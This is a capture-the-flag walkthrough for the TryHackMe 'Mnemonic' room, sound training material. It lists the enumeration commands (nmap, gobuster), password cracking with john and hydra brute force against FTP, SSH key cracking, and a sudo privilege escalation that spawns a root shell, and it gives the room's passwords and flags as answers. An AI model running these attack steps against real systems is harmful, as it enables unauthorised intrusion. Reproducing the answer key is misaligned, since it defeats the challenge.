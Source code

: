 # Mnemonic

## Mnemonic

{% hint style="success" %}
No answer needed
{% endhint %}

## Enumerate

### How many open ports?

```bash
nmap -sC -sV -T5 -p1-65535 10.10.109.236
```

![](.gitbook/assets/image%20%28163%29.png)

{% hint style="success" %}
3
{% endhint %}

### What is the ssh port number? 

![](.gitbook/assets/image%20%28144%29.png)

{% hint style="success" %}
1337
{% endhint %}

### What is the name of the secret file?

![](.gitbook/assets/image%20%28162%29.png)

```bash
gobuster dir -u http://10.10.109.236 -w /usr/share/dirb/wordlists/common.txt

gobuster dir -u http://10.10.109.236 -w big.txt -x php,txt,html -t 50
```

![](.gitbook/assets/image%20%28149%29.png)

```bash
gobuster dir -u http://10.10.109.236/webmasters/ -w big.txt -x php,txt,html -t 50
```

![](.gitbook/assets/image%20%28161%29.png)

```bash
gobuster dir -u http://10.10.109.236/webmasters/admin/ -w big.txt -x php,txt,html -t 50

```

![](.gitbook/assets/image%20%28141%29.png)

```bash
gobuster dir -u http://10.10.109.236/webmasters/backups -w /usr/share/dirb/wordlists/common.txt -x sql,php,txt,css,zip,csv,dat,dbf,log,mdb,sav,tar,xml,cgi
```

![](.gitbook/assets/image%20%28142%29.png)

![](.gitbook/assets/image%20%28154%29.png)

{% hint style="success" %}
backups.zip
{% endhint %}

## Credentials

```bash
zip2john backups.zip > ziphash.txt
john ziphash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![](.gitbook/assets/image%20%28140%29.png)

```bash
unzip backups.zip
00385007
cat backups/note.txt
```

![](.gitbook/assets/image%20%28169%29.png)

###  ftp user name? 

```bash
hydra -l ftpuser -P /usr/share/wordlists/rockyou.txt ftp://10.10.109.236 -t 50 
```

{% hint style="success" %}
ftpuser
{% endhint %}

### ftp password? 

![](.gitbook/assets/image%20%28138%29.png)

{% hint style="success" %}
love4ever
{% endhint %}

### What is the ssh username? 

![](.gitbook/assets/image%20%28151%29.png)

![](.gitbook/assets/image%20%28139%29.png)

![](.gitbook/assets/image%20%28150%29.png)

{% hint style="success" %}
james
{% endhint %}

### What is the ssh password?

```bash
chmod 600 id_rsa
ssh -i id_rsa james@10.10.109.236
```

![](.gitbook/assets/image%20%28152%29.png)

```bash
python3 /usr/share/john/ssh2john.py id_rsa > john_ssh.txt
john --wordlist=/usr/share/wordlists/rockyou.txt john_ssh.txt

```

![](.gitbook/assets/image%20%28170%29.png)

{% hint style="success" %}
bluelove
{% endhint %}

### What is the condor password? 

```bash
ssh james@10.10.109.239 -p 1337
```

![](.gitbook/assets/image%20%28148%29.png)

![](.gitbook/assets/image%20%28153%29.png)

![](.gitbook/assets/image%20%28160%29.png)

![](.gitbook/assets/image%20%28134%29.png)

![](.gitbook/assets/image%20%28158%29.png)

![](.gitbook/assets/image%20%28159%29.png)

```bash
git clone https://github.com/MustafaTanguner/Mnemonic
cd Mnemonic/
python3 -m pip install --user colored
python3 -m pip install --user opencv-python
```

![](.gitbook/assets/image%20%28143%29.png)

```bash
python3 Mnemonic.py
/root/mnemonic/maxresdefault.jpg
2
/root/mnemonic/6450.txt
```

![](.gitbook/assets/image%20%28135%29.png)

{% hint style="success" %}
pasificbell1981
{% endhint %}

## Hack the machine

### user.txt 

{% hint style="success" %}
THM{a5f82a00e2feee3465249b855be71c01}
{% endhint %}

### root.txt

```bash
ssh -p 1337 condor@10.10.109.239
sudo -l
```

![](.gitbook/assets/image%20%28166%29.png)

![](.gitbook/assets/image%20%28137%29.png)

```bash
sudo /usr/bin/python3 /bin/examplecode.py
0
.
/bin/bash
```

![](.gitbook/assets/image%20%28168%29.png)

![](.gitbook/assets/image%20%28136%29.png)

{% hint style="success" %}
THM{2a4825f50b0c16636984b448669b0586}
{% endhint %}

